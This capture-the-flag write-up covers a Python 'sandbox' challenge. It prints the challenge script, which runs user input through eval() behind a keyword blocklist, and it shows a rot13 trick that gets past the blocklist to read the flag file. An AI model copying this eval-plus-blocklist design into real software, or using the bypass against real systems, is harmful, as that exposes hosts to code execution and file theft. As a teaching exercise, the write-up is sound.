

Not exactly Alcatraz
====================

* Flag: **python_sandboxing:_harder_than_teaching_your_mom_dota**
* File: [pwn200.zip](data/pwn200.zip "pwn200.zip")



Unzipping the challenge file produces a short Python script. Running
this script produces a weakly-sandboxed Python shell; we are directed
by the challenge instructions to connect to a specific machine hosting
the script (`nc 54.69.118.120 6000`), where we can break out of the
sandbox and read the contents of a flag file
(`/home/pybaby/flag.txt`).

```
#!/usr/bin/python

def serve():
    "Serve a request"

    print "baby@sics:~$",

    code = raw_input()

    if validate(code):
        print eval(code)
    else:
        print "#rekt"

def validate(code):
    "Hyper-secure, military grade python sandboxing"

    prohibited_keywords = [
        "import",
        "open",
        "flag",
        "eval",
        "exec"
    ]

    for keyword in prohibited_keywords:
        if keyword in code:
            return False

    return True

def main():
    print """
Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!
"""

    while True:
        serve()

if __name__ == '__main__':
    main()
```

The main restriction is that we can't use the string "flag" in our
code; we can get around this by rot-13 encoding the path to the flag,
and decoding it before reading.

In a test interpreter:

```
>>> "/home/pybaby/flag.txt".encode("rot13")
'/ubzr/clonol/synt.gkg'
```

Connected to the remote interpreter:

```
file('/ubzr/clonol/synt.gkg'.decode("rot13"), "r").read()
baby@sics:~$ flag{python_sandboxing:_harder_than_teaching_your_mom_dota}
```

[« Return to challenge board](../README.md "Return to challenge board")
